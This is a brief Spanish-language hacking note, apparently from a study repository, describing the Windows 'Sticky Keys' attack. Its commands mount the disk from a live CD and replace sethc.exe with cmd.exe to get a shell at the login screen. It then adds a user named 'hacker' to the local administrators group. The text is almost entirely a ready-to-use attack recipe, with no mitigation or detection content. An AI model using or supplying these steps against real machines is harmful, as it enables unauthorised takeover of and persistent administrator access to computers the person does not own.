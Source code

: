# Ataque con Sticky Keys

Area: Windows Hacking

%systemroot%\system32\sethc.exe

.bak → Copia de seguridad de un archivo

cmp / diff → Para comprobar que la copia es identica 

```bash
  Ejecutar livecd y montar el disco: mkdir windows → mount /dev/sda* windows/
Acceder a windows\System32 y mover el sethc.exe para reemplazarlo por cmd.exe:  
cd Windows\System32 → mv sethc.exe sethc.exe.bak → cp cmd.exe sethc.exe  → 
cmp cmd.exe sethc.exe
```

Reiniciar y presionar shift repetidas veces

```powershell
net user hacker passwd /add 
net localgroup administradores hacker /add
```

*Este proceso se puede realizar con un cd/usb de recuperacion de windows*